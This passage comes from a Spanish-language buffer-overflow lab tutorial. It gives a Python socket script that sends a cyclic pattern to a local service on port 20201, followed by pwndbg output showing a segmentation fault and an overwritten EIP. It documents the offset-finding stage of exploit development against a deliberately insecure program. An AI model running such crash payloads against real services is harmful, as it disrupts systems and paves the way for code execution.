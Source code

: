Info:

```
Enter data:
```

Introducimos los `400` caracteres generados previamente. Para automatizar este paso, creamos un script en `Python`:

> step1.py

Este script automatiza la conexión y el envío del patrón:

```python
#!/usr/bin/python3

import socket

target_ip = "127.0.0.1"
target_port = 20201

test_pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A"

def send_payload():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((target_ip, target_port))
        sock.send(b"Data Input: " + test_pattern + b"\r\n")

if __name__ == '__main__':
    send_payload()
```

Antes de ejecutar el script, inicia la aplicación en `GDB` (preferentemente con `pwndbg`):

> gdb (pwndbg)

```shell
run
```

Ahora en el `host` ejecutamos:

```shell
python3 step1.py
```

**Resultado esperado en GDB:** La aplicación debería mostrar un error de segmentación (`SIGSEGV`), indicando que el buffer fue desbordado. Observa el valor de `EIP` en los registros, que reflejará parte del patrón enviado.

Y en el `GDB` veremos algo asi:

```
Starting program: /home/kali/Desktop/insecure/secure_software 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Listening at 0.0.0.0:20201!
Listening at 0.0.0.0:20201!

Program received signal SIGSEGV, Segmentation fault.
0x41306b41 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 EAX  0xffffffff
 EBX  0x41366a41 ('Aj6A')
```